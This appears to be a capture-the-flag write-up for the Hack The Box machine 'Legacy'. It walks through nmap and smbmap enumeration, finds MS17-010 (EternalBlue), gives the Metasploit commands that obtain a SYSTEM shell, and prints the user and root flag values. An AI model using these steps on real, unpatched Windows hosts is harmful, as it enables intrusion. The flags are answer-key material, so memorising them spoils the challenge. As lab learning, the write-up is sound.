

# Legacy - 10.10.10.4

## nmap

```
❯ sudo rustscan -a 10.10.10.4 -- -n -sV -sC -oA tcp-all

Nmap scan report for 10.10.10.4
Host is up, received echo-reply ttl 127 (0.018s latency).
Scanned at 2021-11-24 23:26:52 EST for 46s

PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 40501/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 34108/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d01h01m20s, deviation: 1h24m50s, median: 5d00h01m20s
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:d7:05 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 d7 05 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-11-30T08:28:19+02:00
```

## 445 - smb

Checking out with smbmap while I wait for the nmap scan to complete.

```sh
❯ smbmap -vH 10.10.10.4
[+] 10.10.10.4:445 is running Windows 5.1 (name:LEGACY) (domain:LEGACY)
```

Looks like it's running Windows XP. Should be vulnerable to just about everything, lol.

Checking with nmap scripts for vulns since the original script didn't:

```
❯ sudo nmap -n -v -sV --script "(vuln and safe)" 10.10.10.4 -p139,445 -oA vuln-checks

Nmap scan report for 10.10.10.4
Host is up (0.032s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

Nice, vulnerable to MS17-010 (ETERNAL BLUE). We'll just do an easy kill with metasploit:

```sh
# start the database
❯ sudo msfdb init
# run the metasploit console
❯ msfconsole
msf6 > search 17-010
> use exploit/windows/smb/ms17_010_psexec
> set rhosts 10.10.10.4
> set lhost tun0
> run
```

And this gives us a SYSTEM shell!



user.txt:

```
type "c:\Documents and Settings\john\Desktop\user.txt"

e69af0e4f443de7e36876fda4ec7644f
```


root.txt:

```
type "c:\Documents and Settings\Administrator\Desktop\root.txt"

993442d258b0e0ec917cae9e695d5713
```

Too easy.